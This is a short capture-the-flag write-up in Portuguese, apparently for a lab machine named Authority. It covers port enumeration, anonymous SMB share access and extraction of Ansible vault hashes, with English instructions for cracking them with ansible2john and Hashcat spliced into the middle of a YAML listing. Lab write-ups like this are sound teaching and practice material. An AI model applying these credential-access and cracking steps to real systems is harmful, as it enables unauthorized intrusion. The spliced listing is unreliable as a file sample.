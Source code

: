     445/tcp open microsoft-ds
    464/tcp open kpasswd5
    593/tcp open http-rpc-epmap
    636/tcp open ldapssl
    3268/tcp open globalcatLDAP
    3269/tcp open globalcatLDAPssl
    5985/tcp open wsman
    8443/tcp open https-alt
    9389/tcp open adws
    47001/tcp open winrm
    ```
    
    Website
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2069.png)
    
    `smbclient //10.10.11.222/Development -N`
    
    Ao procurar na diretoria encontramos um ficheiro main.yml dentro da pasta ansible-vault
    
    ```
    cat defaults/main.yml
    ---
    pwm_run_dir: "{{ lookup('env', 'PWD') }}"
    pwm_hostname: authority.htb.corp
    pwm_http_port: "{{ http_port }}"
    pwm_https_port: "{{ https_port }}"
    pwm_https_enable: true
    There are three different hashes in this file ( pwm_admin_login , pwm_admin_password , and 
    ldap_admin_password ) which we can convert to a crackable format using ansible2john.py per
    this guide. 
    First, we need to save each hash to a file and clean them up with sed to remove the whitespaces.
    Now we can convert each one using ansible2john.py .
    Now let's try to crack the hashes using Hashcat . The mode we want is 16900 . We can feed the
    hashes to Hashcat using the rockyou.txt wordlist, after trimming off the front part of the hash
    (they should start with $ansible$ ). 
    pwm_require_ssl: false
    pwm_admin_login: !vault |
    $ANSIBLE_VAULT;1.1;AES256
    <SNIP>
    pwm_admin_password: !vault |
    $ANSIBLE_VAULT;1.1;AES256
    <SNIP>
    ldap_admin_password: !vault |
    $ANSIBLE_VAULT;1.1;AES256
    <SNIP>
    ```
    
    Colocar as passwords num ficheiro
    
    ```
    sed -i 's/^[ \t]*//' vault1
    cat vault1
    $ANSIBLE_VAULT;1.1;AES256
    32666534386435366537653136663731633138616264323230383566333966346662313161326239
    6134353663663462373265633832356663356239383039640a346431373431666433343434366139
    35653634376333666234613466396534343030656165396464323564373334616262613439343033
    6334326263326364380a653034313733326639323433626130343834663538326439636232306531
    3438
    ```
    